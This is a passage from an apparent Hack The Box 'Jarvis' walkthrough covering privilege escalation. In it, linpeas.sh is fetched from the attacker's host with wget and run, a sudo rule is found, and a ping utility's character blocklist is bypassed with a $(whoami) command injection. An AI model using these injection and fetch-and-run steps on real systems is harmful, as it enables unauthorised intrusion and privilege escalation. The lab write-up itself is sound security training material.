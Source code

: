 ### Linpeas

```bash
luc@kali:~/HTB/Jarvis$ cp /opt/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh .
luc@kali:~/HTB/Jarvis$ python3 -m http.server
```

```bash
www-data@jarvis:/tmp$ wget http://10.10.14.16:8000/linpeas.sh
www-data@jarvis:/tmp$ chmod +x linpeas.sh
www-data@jarvis:/tmp$ ./linpeas.sh | tee linpeas.result
...
User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
...
[+] SUID - Check easy privesc, exploits and write perms
/bin/systemctl
...
www-data@jarvis:/tmp$ ls -lsa /bin/systemctl
172 -rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
```

We can't run /bin/systemctl as www-data, but we can run /var/www/Admin-Utilities/simpler.py as pepper so that will be the next step.

### /var/www/Admin-Utilities/simpler.py

The most interesting function in `simpler.py` is `exec_ping()` because it allows us to execute commands. We do however need to find a way to bypass the check for forbidden characters.

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

`$`, `(` and `)` are allowed so we can use that to get code execution. We can test this by using `$(whoami)`.

```bash
www-data@jarvis:/var/www/Admin-Utilities$ sudo -u pepper /var/www/Admin-Utilities/simpler.py python3 simpler.py -p
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************

Enter an IP: $(whoami)
ping: pepper: Temporary failure in name resolution
```
